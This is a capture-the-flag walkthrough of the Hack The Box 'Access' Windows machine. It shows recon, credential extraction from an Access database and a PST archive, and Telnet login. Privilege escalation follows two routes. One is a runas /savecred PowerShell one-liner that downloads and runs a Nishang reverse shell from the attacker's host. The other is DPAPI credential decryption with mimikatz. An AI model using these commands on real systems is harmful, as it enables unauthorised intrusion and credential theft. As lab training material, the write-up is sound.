 # 🧭 HTB: Access

## 📌 Box Info
- **OS**: [Windows](Windows)
- **Difficulty**: [Easy](Easy)
- Platform: [HTB](HTB)
**Skills**: FTP enumeration, PST extraction, Telnet login, credential dumping, DPAPI decryption

---

## 🔍 Recon

```bash
nmap -sT -p- --min-rate 5000 -oA nmap/alltcp 10.10.10.98
nmap -sV -sC -p 21,23,80 -oA nmap/scripts 10.10.10.98
```

**Findings**:
- [FTP](FTP) (21): Anonymous login allowed
- [Telnet](TELNET) (23)
- [HTTP](HTTP) (80): Microsoft IIS 7.5

---

## 🌐 Exploring HTTP

```bash
gobuster -u http://10.10.10.98 -w /usr/share/wordlists/dirbuster/directory-list-2.3-medium.txt -x asp,aspx,txt -t 20
```

- No interesting directories found
- Image shown on homepage

---

## 📁 FTP File Extraction

```bash
ftp 10.10.10.98
# Login: anonymous
# Navigate and download files
cd Backups
bin
get backup.mdb

cd ../Engineer
get "Access Control.zip"
```

---

## 🧵 Analyzing backup.mdb (Microsoft Access DB)

```bash
apt install mdbtools
mdb-tables backup.mdb
mdb-export backup.mdb auth_user
```

**Findings**:
```txt
engineer : access4u@security
```

---

## 🔓 Crack PST Archive

```bash
7z x Access\ Control.zip  # Password: access4u@security
```

---

## 📬 Extract Outlook Password (readpst)

```bash
apt install readpst
readpst Access\ Control.pst
cat Access\ Control.mbox
```

**Email content**:
```txt
security : 4Cc3ssC0ntr0ller
```

---

## 💻 Shell as security via Telnet

```bash
telnet 10.10.10.98
# Login: security / 4Cc3ssC0ntr0ller

whoami
type C:\Users\security\Desktop\user.txt
```

---

## 🔎 Privilege Escalation Enumeration

```cmd
cmdkey /list
```

**Findings**:
- Cached credentials for ACCESS\Administrator
- Found `.lnk` file referencing `runas /savecred`

---

## 🔄 Method 1: PrivEsc via runas & PowerShell reverse shell

### 🛠️ Prep Nishang shell

```bash
git clone https://github.com/samratashok/nishang.git
mkdir ~/www
cp nishang/Shells/Invoke-PowerShellTcp.ps1 ~/www/
echo 'Invoke-PowerShellTcp -Reverse -IPAddress <tun0_ip> -Port 443' >> ~/www/Invoke-PowerShellTcp.ps1

# Serve it
cd ~/www
python3 -m http.server 80

# Listener
nc -lnvp 443
```

### 🏃 Execute from target

```powershell
runas /user:ACCESS\Administrator /savecred "powershell iex(new-object net.webclient).downloadstring('http://<tun0_ip>/Invoke-PowerShellTcp.ps1')"
```

**Result**: Administrator shell ➜ `whoami`, then:
```powershell
type C:\users\administrator\desktop\root.txt
```

---

## 🔄 Method 2: PrivEsc via DPAPI Credential Decryption

### 📤 Extract & Encode

```cmd
certutil -encode 0792c32e... output
certutil -encode 51AB168B... output
```

### 📥 Decode on Kali

```bash
base64 -d masterkey.b64 > masterkey
base64 -d credentials.b64 > credentials
```

### 🧪 Decrypt with mimikatz on Windows

```powershell
dpapi::masterkey /in:masterkey /sid:S-1-5-21-... /password:4Cc3ssC0ntr0ller
dpapi::cred /in:credentials
```

**Extracted Administrator password**:
```
55Acc3ssS3cur1ty@megacorp
```

### 🔁 Telnet as Administrator

```bash
telnet 10.10.10.98
# Login: administrator / 55Acc3ssS3cur1ty@megacorp
cd desktop
type root.txt
```

---

## 🗂️ Beyond Root – Analyze LNK

### 🔎 On Windows

```powershell
$WScript = New-Object -ComObject WScript.Shell
$SC = Get-ChildItem *.lnk
$WScript.CreateShortcut($SC)
```

### 🔍 On Linux with pylnker

```bash
base64 -d lnk.b64 > lnk
python pylnker.py lnk
```